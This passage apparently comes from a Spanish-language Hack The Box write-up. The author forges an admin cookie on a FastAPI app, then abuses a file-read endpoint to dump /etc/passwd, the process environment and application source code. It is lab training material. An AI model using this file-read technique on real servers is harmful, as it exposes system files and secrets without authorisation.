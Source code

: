 ![[Pasted image 20241010191034.png]]
*Ahora el admin check nos devuelve true.*

![[Pasted image 20241010191112.png]]
*Podemos ver que el admin file nos devuelve el archivo que necesitemos ya que contamos con el privilegio de administrador a nivel de cookie.*

```r
{
  "file": "root:x:0:0:root:/root:/bin/bash\ndaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\nbin:x:2:2:bin:/bin:/usr/sbin/nologin\nsys:x:3:3:sys:/dev:/usr/sbin/nologin\nsync:x:4:65534:sync:/..."
}
```
*Si analizamos con detenimiento el archivo podemos listar dos usuario que tienen una bash, por una parte está htb y por otra root.*

```json
{
  "file": "APP_MODULE=app.main:app\u0000PWD=/home/htb/uhc\u0000LOGNAME=htb\u0000PORT=80\u0000HOME=/home/htb\u0000LANG=C.UTF-8\u0000VIRTUAL_ENV=/home/htb/uhc/.venv\u0000INVOCATION_ID=c0b35b4b6e4e47c08b0988a3ab21819e\u0000HOST=0.0.0.0\u0000USER=htb\u0000SHLVL=0\u0000PS1=(.venv) \u0000JOURNAL_STREAM=9:18024\u0000PATH=/home/htb/uhc/.venv/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\u0000OLDPWD=/\u0000"
}
```
*Al traterse de información sensible lo que estamos buscando puede que se esten aplicando variables de entorno por lo cual esta ruta es la que las contempla y podemos ver un app.main y en la ruta /home/htb/uhc lo que puede decir que concatenandolo podriamos objeter algo, normalmente estoy archivos suelen ser python.*

```json
{"file": "/home/htb/uhc/app/main.py"}
{
  "file": "import asyncio\n\nfrom fastapi import FastAPI, APIRouter, Query, HTTPException, Request, Depends\nfrom fastapi_contrib.common.responses import UJSONResponse\nfrom fastapi import FastAPI, Depends, HTTPException, status\nfrom fastapi.security import HTTPBasic, HTTPBasicCredentials\nfrom fastapi.openapi.docs import get_swagger_ui_html\nfrom fastapi.openapi.utils import get_openapi...[PYTHON SCRIPT]
}
```
*Podemos ver que efectivamente! Se esta cargando un script...*

![[Pasted image 20241010192658.png]]
*Nos lo traemos a un archivo y con nvim lo tratamos...*

![[Pasted image 20241010192818.png]]
*Con estas expresiones regulares deberiamos de formatear el documento de forma correcta y se debería de entender.*

![[Pasted image 20241010193107.png]]
*Ahora vamos a agragar esto para que se arreglen el tema de las comillas.*

```r
20   │ from app.core.config import settings
```
*Esta linea nos llama la anteción ya que vemos un archivo de configuración y vamos a verlo en detalle.*
